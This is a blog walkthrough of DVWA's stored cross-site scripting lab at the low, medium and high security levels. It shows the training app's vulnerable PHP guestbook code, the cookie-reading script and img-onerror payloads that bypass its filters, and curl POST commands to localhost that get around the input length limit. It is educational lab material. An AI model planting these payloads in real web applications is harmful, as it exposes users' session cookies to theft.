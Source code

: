 +++
date = '2025-10-20T20:01:18+07:00'
draft = false
title = 'DVWA XSS Stored Low/Medium/High Security'
tags = ['DVWA']
description = 'Leveraging XSS Scripting to get our desired data.'

[cover]
  image = '/images/posts/dvwa-cover.png'
  alt = 'DVWA XSS Stored'
  caption = 'DVWA XSS Stored'
  relative = false
+++

## Description

**Vulnerability:** XSS (Stored)  
**Impact:** Leveraging XSS Scripting to get our desired data.

---

## LOW Security Level

```php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}
```

The app just INSERT the records to database with no checks

```php
$query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
```

So we can use `<script>alert(document.cookie)</script>` in the message input since the name has maxlength:

![Guide image](/images/posts/dvwa-xss-stored-1.png)

## MEDIUM Security Level

This source code now has a lots of checks:

```php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}
```

You can see in here the message input has really strict checks, the name just check the `<script>` tag so we can use the payload: `<img src=x onerror=alert(document.cookie)>`, however the UI input has maxlength so I created a `curl` command to make a POST with that payload:

```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/xss_s/" \
-d "txtName=<img src=x onerror=alert(document.cookie)>&mtxMessage=anything&btnSign=Sign+Guestbook" \
-b "PHPSESSID=250fd0bf01a2b824c135e0e63ad79f65;security=medium"
```

![Guide image](/images/posts/dvwa-xss-stored-2.png)

## HIGH Security Level

The new source code:

```php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}
```

The name input still just prevents `<script>` tag so the payload we use in MEDIUM Security Level still works:

```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/xss_s/" \
-d "txtName=<img src=x onerror=alert(document.cookie)>&mtxMessage=anything&btnSign=Sign+Guestbook" \
-b "PHPSESSID=250fd0bf01a2b824c135e0e63ad79f65;security=high"
```

Result:

![Guide image](/images/posts/dvwa-xss-stored-3.png)

## Resources

-   https://owasp.org/www-community/attacks/xss
-   https://owasp.org/www-community/xss-filter-evasion-cheatsheet
-   https://en.wikipedia.org/wiki/Cross-site_scripting
-   https://www.cgisecurity.com/xss-faq.html
-   https://www.scriptalert1.com/
